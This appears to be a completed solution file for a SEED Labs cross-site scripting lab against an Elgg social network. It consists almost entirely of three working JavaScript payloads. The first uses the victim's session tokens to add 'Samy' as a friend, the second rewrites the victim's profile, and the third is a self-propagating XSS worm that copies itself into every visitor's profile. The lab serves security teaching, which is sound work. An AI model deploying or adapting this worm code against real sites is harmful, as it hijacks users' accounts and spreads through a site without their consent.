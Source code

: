 # add Samy as a friend
<script type="text/javascript">
    window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=58"+ts+token+ts+token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>

# Change victim profiles
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var description="&description=Samy is my hero&accesslevel[description]=2";
var content=token+ts+description+guid; //FILL IN
var samyGuid=59; //FILL IN
var sendurl="http://www.seed-server.com/action/profile/edit"; //FILL IN
if(elgg.session.user.guid!=samyGuid) 
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>

# Self-propagation code
<script type="text/javascript" id="worm">
	window.onload = function(){
		var headerTag = "<script type=\"text/javascript\" id=\"worm\">"; // add header manually
		var jsCode = document.getElementById("worm").innerHTML; // only gives the body
		var tailTag = "</" + "script>"; // add tail manually, fool HTML parser by split
		// apply URI encoding
		var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
        //JavaScript code to access user name, user guid, Time Stamp and Security Token
        var userName="&name="+elgg.session.user.name; var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        //Construct the content of your url.
        var description = "&description=Samy is my hero" + wormCode + "&accesslevel[description]=2";
        var content = token + ts + description + guid;
        var samyGuid = 59; 
        var sendurl="http://www.seed-server.com/action/profile/edit";
	if(elgg.session.user.guid!=samyGuid) 
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>